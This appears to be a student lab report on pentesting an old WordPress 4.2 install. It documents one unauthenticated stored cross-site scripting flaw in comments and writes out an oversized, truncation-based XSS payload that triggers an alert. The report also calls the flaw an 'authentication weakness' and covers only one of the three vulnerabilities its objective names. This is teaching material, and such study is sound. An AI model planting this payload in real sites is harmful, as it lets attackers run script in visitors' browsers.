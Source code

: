 # Project 7 - WordPress Pentesting

Time spent: **1** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unauthenticated stored cross-site scripting 
  - [X] Summary: 
    - Vulnerability types: authentication weakness
    - Tested in version:4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: See attached exploit_one.gif file 
  - [X] Steps to recreate:
	This is a simple javascript injection. Insert the following injection 
	<a title='x onmouseover=alert(unescape(/hello%20world/.source))
	style=position:absolute;left:0;top:0;width:5000px;height:5000px
	 AAAAAAAAAAAA [64 kb] ...'></a>
	with a string long enough to not be truncated (so something more than 64kb)
so for example: 
	<a title='x onmouseover=alert(unescape(/hello%20world/.source))
	style=position:absolute;left:0;top:0;width:5000px;height:5000px
	 AAAAAAAAAAAAAAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA AAAAAAAAAAAA  [64 kb] ...'></a>
  - [X] Affected source code:
    - [Link 1](http://wpdistillery.local/wp-comments-post.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).



